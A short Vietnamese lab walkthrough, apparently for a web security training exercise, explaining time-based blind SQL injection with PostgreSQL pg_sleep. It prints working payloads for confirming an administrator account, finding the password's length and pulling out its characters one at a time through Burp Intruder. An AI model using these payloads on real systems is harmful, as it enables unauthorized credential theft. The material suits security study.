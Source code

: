 Bài này có đề bài như sau

![Alt text](image-33.png)

Thì đối với bài này hơi nâng cao hơn bài ở trên đó là nó còn muốn tìm ra pass nữa và phải dựa trên time ngoài ra không còn cách nào khác
Bây giờ ta sẽ sử dụng 1 số hàm logic hiểu cơ bản là ta muốn tìm pass đúng không nếu sai thì nó phải khác rõ rệt với đúng thì mình mới nhận ra được có thể có một số trường hợp thì nó không ổn lắm kiểu như bài check độ dài lúc nãy

                                        ';SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--

Bây giờ câu truy vấn sẽ trở thành
                                        SELECT * FROM users WHERE trackingID = 'blabla';SELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
Nó sẽ thực hiện một cách tuần tự và ta thấy time delay của nó là tầm 10s tức truy vấn hợp lệ

+ Sửa một chút truy vấn thử xem sao 
                                        ';SELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
Sau đó dò xem đọ dài password bằng query
                                        ';SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>$x)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--

Dùng intruder để brute xem lọc thời gian phản hồi ra được độ dài passwd
Sau đó
                                         ';SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,$s,1)      
                                          ='$s')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
Hai mục này ta sẽ dò bằng 2 đạn để check với intruder

@@ Chúc các bạn thành công @@